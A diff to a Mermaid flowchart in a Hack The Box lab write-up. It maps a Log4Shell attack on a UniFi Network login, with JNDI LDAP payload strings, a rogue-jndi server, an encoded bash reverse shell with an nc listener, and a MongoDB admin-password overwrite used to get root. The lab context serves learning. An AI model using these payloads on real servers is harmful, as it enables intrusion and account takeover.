

Before and after one commit to dipeshshresthaofficial/SARI-Research-Lab: the first of 2 diagrams in htb/htb.md, drawn with Mermaid (forest theme). The commit also changed other lines of this file, not shown here.

````diff
--- a/htb/htb.md
+++ b/htb/htb.md
@@ -3,25 +17,30 @@
-```mermaid
+<div class="mermaid">
 graph LR
-  A[nmap] --> B[8443 <br/> Unifi Network] 
-  B --> D["log4j vulnerable <br/> CVE-2021-44228"]
-  D --> E["param. remember <br/> Post /api/login"]
-  E --> F["test with <br/> ${jndi:ldap://{IP}/whatever}"]
-  F --> G["check for LDAP traffic <br/> tcpdump port 389"]
-  A --> C[ssh]
+
+  subgraph Priv. Escalation
+  1["Look for <br/> mongodb port"] --> 2["connect to default <br/> database ace"] --> 3["look for <br/> admin collection"] 
+  4["mkpasswd -m sha-512"]--> 5["change admin </br> password"] --> 6["login with <br/> new password"] 
+  6 --> 7["check site settings <br/> get root ssh password 🏳️"]
+
+  3 --> 5
+  end
   
   subgraph Exploit log4j
   a[Exploit log4j] --> b["install openjdk <br/> install Maven"] --> d
   a --> c[" git clone <br/> https://github.com/ <br/> veracode-research/rogue-jndi"] --> d["build <br> mvn package"] 
   a --> e[prepare bash shell] --> f["encode w. base 64"] 
   f --> g["Run the rogue server"]
   d --> g
   a --> h["start a listener <br/> nc -lvp 4444"] --> m["receive a conn. <br/> script /dev/null -c bash"] 
   g --> l["send the exploit:<br/>''${jndi:ldap://IP:1389/o=tomcat}''"] --> m
   end
   
-  subgraph Priv. Escalation
-  1["Look for <br/> mongodb port"] --> 2["connect to default <br/> database ace"] --> 3["look for <br/> admin collection"] 
-  3 --> 4["change admin password"]
+  subgraph Scan
+  A[nmap] --> B[8443 <br/> UniFi Network] 
+  B --> D["log4j vulnerable <br/> CVE-2021-44228"]
+  D --> E["param. remember <br/> Post /api/login"]
+  E --> F["test with <br/> ${jndi:ldap://{IP}/whatever}"]
+  F --> G["check for LDAP traffic <br/> tcpdump port 389"]
+  A --> C[ssh] 
   end
-
-  ```
+</div>
````
